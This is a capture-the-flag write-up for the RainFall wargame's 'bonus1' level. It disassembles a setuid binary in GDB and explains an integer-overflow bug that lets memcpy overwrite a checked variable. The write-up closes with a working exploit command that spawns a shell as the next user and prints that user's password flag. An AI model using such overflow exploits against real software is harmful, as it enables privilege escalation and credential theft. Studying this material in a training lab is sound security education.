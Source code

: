 ```sh
bonus1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 42
bonus1@RainFall:~$ ./bonus1 42 42
```
There is one excutable file **bonus1**, it takes argument, but do nothing. without argument, its segmentaion fault. \
\
Run the binary file with GDB.
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp # buffer[40]
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp) # return value of atoi
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp) # if (nb <= 9) 
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax # nb
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx # nb * 4 -2147483648 * 4 = 44
   0x0804845a <+54>:    mov    0xc(%ebp),%eax # argv[2]
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax # buffer[40], 0x3c - 0x14 = 40
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp) # buffer
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt> # memcpy(dest, src, size)
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp) # compare 1464814662
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp) # null
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp) # sh
   0x08048492 <+110>:   movl   $0x8048583,(%esp) # /bin/sh
   0x08048499 <+117>:   call   0x8048350 <execl@plt> # execl("/bin/sh", "sh", 0);
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```
There is just main function, which turns ```argv[1]``` into number with ```atoi()``` then checks if the number is lower or equal than 9 (main+29). \
But later to call ```execl()``` function our nb must be exact value ```0x574f4c46``` (main+84), so 2 different values required without any modification. \
To archive this we have to recall about int number overflow, which we can make happen on ```nb * 4```. \
And since we have to overwrite our nb using ```memcpy()``` we have to put size parameter at least 44, because difference between ```int nb``` and ```char buffer[40]``` is 40 and 4 bytes for the number ```0x574f4c46``` to put in nb. \
So we have to find the magic number than can be smaller than 10, but more than 44 when multiply by 4. \
In our case we used ```-2147483600``` then gave for the second argument string with 40 characters + our number to overwrite to nb ```0x574f4c46```.
```sh
bonus1@RainFall:~$ ./bonus1 -2147483600 $(python -c 'print "B" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
bonus1 passed !